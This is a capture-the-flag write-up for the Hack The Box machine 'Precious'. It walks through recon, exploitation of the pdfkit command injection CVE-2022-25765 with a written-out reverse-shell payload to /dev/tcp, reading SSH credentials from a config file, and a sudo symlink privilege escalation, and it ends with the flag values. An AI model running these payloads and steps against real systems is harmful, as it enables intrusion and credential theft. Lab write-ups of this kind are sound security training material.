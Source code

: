 # Precious - Easy

```shell
sudo vim /etc/hosts
#map ip to precious.htb

nmap -T4 -p- -A -v precious.htb

feroxbuster -u http://precious.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

#for the exploit payload
sudo python3 -m http.server 80

#setup listener
nc -nvlp 4444
#we get reverse shell on listener

whoami
#ruby

python3 -c 'import pty;pty.spawn("/bin/bash")'

#check common directories for clues
ls -la /opt

ls -la /var/www

ls -la /home

ls -la /home/ruby

ls -la /home/ruby/.bundle

cat /home/ruby/.bundle/config
#this contains creds for 'henry'
#we can attempt to use it for ssh login

ssh henry@10.129.98.205

#get user flag

sudo -l
#we can run a ruby file as sudo

ls -la /opt

cat /opt/update_dependencies.rb
#this program reads dependencies.yml
#but there is no such file in /opt

find / -name 'dependencies.yml' 2>/dev/null
#there is a file in /opt/sample
#but we do not have write permissions in /opt

sudo /usr/bin/ruby /opt/update_dependencies.rb
#gives error
#there is no dependencies.yml

#we can create a symbolic link named dependencies.yml
#that points to root flag
#to misuse the Ruby program as it did not mention full path

ln -s /root/root.txt dependencies.yml

sudo /usr/bin/ruby /opt/update_dependencies.rb
#this gives error
#but error message contains root flag
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.4p1 (Debian)
  * 80 - http - nginx 1.18.0

* We can explore the webpage - it offers conversion from webpage to PDF, and we can provide URL as input.

* We can enumerate the webpage for any hidden directories using ```feroxbuster``` but we do not get anything.

* We can also observe that the webpage is only able to fetch URL and convert to PDF, if the URL starts with ```http://```.

* We can intercept and capture the request using ```Burp Suite```, and forward it to Repeater.

* When we send an URL that starts with ```http://```, it attempts to convert it to a PDF - the result is a blank PDF.

* However, in the Response, we can see some details - the webpage is using ```pdfkit v0.8.6```.

* When we search for any exploits related to this version of ```pdfkit```, we get results for CVE-2022-25765.

* This vulnerability covers command injection in ```pdfkit``` versions before 0.8.7, so the webpage is vulnerable.

* Following the format of the example given to us in the exploit, we can frame our input payload:

```http://example.com/?name=#{'%20`sleep 5`'}```

* However, this does not work and we get the message "Cannot load remote URL".

* We can try to host a server using ```http.server``` from attacker machine, and use that as a part of payload.:

```http://10.10.14.13/?name=#{'%20`sleep 5`'}```

* This does convert the page to a PDF - but we are unable to execute the command.

* We can try other commands, such as reverse-shell commands; we need to setup a listener before executing the payload:

```http://10.10.14.13/?name=#{'%20`bash -c "sh -i >& /dev/tcp/10.10.14.13/4444 0>&1"`'}```

* This payload gives us a reverse shell on our listener.

* We have shell access as 'ruby' user - we can start basic enumeration before using ```linpeas.sh```

* We can start by checking common directories such as /opt, /var/www, /home

* We have a home directory at /home/ruby - this contains a hidden folder, which contains a file inside.

* This file includes creds for the user 'henry' - we can attempt to use this for SSH login.

* Logging into SSH as henry using these creds works, and we can get the user flag now.

* Now, ```sudo -l``` shows that we can execute a particular ruby file as sudo without password:

```(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb```

* Printing 'update_dependencies.rb' shows that it reads from a file 'dependencies.yml', and updates it.

* Now, the .rb program does not mention the full path for the '.yml' file; furthermore, there is no '.yml' file of the same name in /opt

* There is one file with the same name in /opt/sample, but we cannot modify or copy it somewhere.

* Knowing that we do not have any write permissions in /opt, we will have to find a workaround.

* Running the sudo command as it is fails to execute since there is no 'dependencies.yml' in the given file location.

* As the full path is not given for the '.yml' file in the Ruby program, we can misuse it by creating a symbolic link with the name of the '.yml' file, that points to the root flag.

* Now, if we run the sudo command, the Ruby program does not execute properly, and the error message contains the root flag.

```markdown
1. User flag - ecd1608ee4e8db899b61422f8c803d2c

2. Root flag - b646d6e93e01a523d09bf6e11fe0422a
```
